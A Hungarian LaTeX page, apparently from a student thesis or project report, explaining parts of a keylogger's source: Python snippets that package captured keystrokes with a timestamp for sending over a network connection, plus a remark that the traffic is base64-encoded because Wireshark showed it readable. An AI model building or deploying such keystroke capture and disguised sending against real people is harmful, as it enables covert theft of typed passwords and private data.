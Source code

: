 \documentclass[12pt,a4paper,oneside]{report}
\begin{document}
A billentyűzet lehalgató után felépítődik az adat, amit a kapcsolaton keresztül elküld. Minden adatépítés után a $keys$ változó a $None$ értéket veszi fel. Adatépítésre és küldésre csak akkor kerül sor, ha a $keys$ változó nem $None$.
\begin{lstlisting}{language=Python}
if self.keys is not None:
	date_time = get_time()
	key = str(self.keys).replace("'", "")
	data = ["chars", date_time, key]
	self.keys = None
	data = str(data)
\end{lstlisting}
A $get\_time$ függvény visszatéríti az adott időt ``nap/hónap/év $|$ óra:perc:másodperc'' formátumban.
\begin{lstlisting}{language=Python}
'''
Gets current time

@return: time in dd/mm/yyyy | HH:MM:SS format
'''
def get_time():
	date_time = datetime.now().strftime("%d/%m/%Y | %H:%M:%S")
	return date_time
\end{lstlisting}
A $keys$ változóba karakterként vagy karakterláncként kerül a lenyomott billentyű, ezért le kell cseélni a szélső idézőjeleket üres karakterekre. Karakter helyett akkor kerül karakterlánc, ha olyan karaktereket nyomunk le, amelyek nem nyomtathatóak, például: $ENTER$, $SPACE$, stb. Ilyenkor $Key.enter$ vagy $Key.space$ stb formátumban kapjuk meg.

A hálózaton közlekedő adatokat meg lehet nézni a wireshark szoftverrel. Észre lehet venni, hogy az adatok emberileg olvashatóak (ábra \ref{fig:packetcapture}), ezéer a python base64 modulját alkalmazva kódoljuk a küldendő adatokat.
\begin{figure}[H]
\centering
\includegraphics[width=400pt]{../images/wiresharkcapture}
\caption{A csomag wireshark-al elfogva}
\label{fig:packetcapture}
\end{figure}
\end{document}
